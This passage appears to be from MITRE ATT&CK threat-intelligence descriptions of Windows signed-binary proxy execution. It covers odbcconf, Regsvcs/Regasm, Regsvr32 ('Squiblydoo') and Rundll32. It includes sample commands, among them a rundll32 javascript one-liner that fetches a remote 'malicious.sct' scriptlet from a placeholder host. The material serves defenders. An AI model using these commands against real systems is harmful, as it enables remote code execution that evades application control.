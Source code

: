 Description:

Adversaries may abuse odbcconf.exe to proxy execution of malicious payloads. Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names. The Odbcconf.exe binary may be digitally signed by Microsoft. Adversaries may abuse odbcconf.exe to bypass application control solutions that do not account for its potential abuse. Similar to Regsvr32, odbcconf.exe has a REGSVR flag that can be misused to execute DLLs (ex: odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;).

### T1218.009 - System Binary Proxy Execution: Regsvcs/Regasm

Description:

Adversaries may abuse Regsvcs and Regasm to proxy execution of code through a trusted Windows utility. Regsvcs and Regasm are Windows command-line utilities that are used to register .NET Component Object Model (COM) assemblies. Both are binaries that may be digitally signed by Microsoft. Both utilities may be used to bypass application control through use of attributes within the binary to specify code that should be run before registration or unregistration: [ComRegisterFunction] or [ComUnregisterFunction] respectively. The code with the registration and unregistration attributes will be executed even if the process is run under insufficient privileges and fails to execute.

### T1218.010 - System Binary Proxy Execution: Regsvr32

Description:

Adversaries may abuse Regsvr32.exe to proxy execution of malicious code. Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. The Regsvr32.exe binary may also be signed by Microsoft. Malicious usage of Regsvr32.exe may avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of allowlists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe can also be used to specifically bypass application control using functionality to load COM scriptlets to execute DLLs under user permissions. Since Regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. This variation of the technique is often referred to as a "Squiblydoo" and has been used in campaigns targeting governments. Regsvr32.exe can also be leveraged to register a COM Object used to establish persistence via Component Object Model Hijacking.

### T1218.011 - System Binary Proxy Execution: Rundll32

Description:

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. Shared Modules), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: rundll32.exe {DLLname, DLLfunction}). Rundll32.exe can also be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions Control_RunDLL and Control_RunDLLAsUser. Double-clicking a .cpl file also causes rundll32.exe to execute. For example, ClickOnce can be proxied through Rundll32.exe. Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" This behavior has been seen used by malware such as Poweliks. Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command rundll32.exe ExampleDLL.dll, ExampleFunction, rundll32.exe would first attempt to execute ExampleFunctionW, or failing that ExampleFunctionA, before loading ExampleFunction). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending W and/or A to harmless ones. DLL functions can also be exported and executed by an ordinal number (ex: rundll32.exe file.dll,#1). Additionally, adversaries may use Masquerading techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.
